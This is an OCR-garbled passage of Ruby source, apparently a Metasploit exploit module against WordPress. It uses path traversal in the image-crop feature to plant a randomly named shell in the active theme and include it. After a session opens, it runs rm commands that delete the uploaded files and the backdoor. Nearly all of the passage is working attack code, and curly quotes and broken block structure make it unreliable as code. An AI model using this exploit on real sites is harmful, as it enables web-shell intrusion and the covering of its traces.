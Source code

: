 change_path(wpnonce2, image_id, @filename1, @current_date, '?/x', cookie)
crop_image(image_id, ajax_nonce, cookie)

@shell_name = Rex::Text.rand_text_alpha(10)
change_path(wpnonce2, image_id, @filename1, @current_date, "?/../../../../themes/#{@current_theme}/#{@shell_name}", cookie)
crop_image(image_id, ajax_nonce, cookie)

print_status("Including into theme")
post_id = include_theme(@shell_name, cookie)

check_for_base64(cookie, post_id)
wp_cleanup(@shell_name, post_id, cookie) 
```

end `def on_new_session(client)

client.shell_command_token(“rm wp-content/uploads/#{@current_date}#{@filename1[0…10]}*")

client.shell_command_token("rm wp-content/uploads/#{@current_date}cropped-#{@filename1[0…10]}*”)

client.shell_command_token(“rm -r wp-content/uploads/#{@current_date}#{@filename1[0…10]}*”)

client.shell_command_token(“rm wp-content/themes/#{@current_theme}/cropped-#{@shell_name}.jpg”)

client.shell_command_token(“rm #{@backdoor}.php”)

end

end` 
```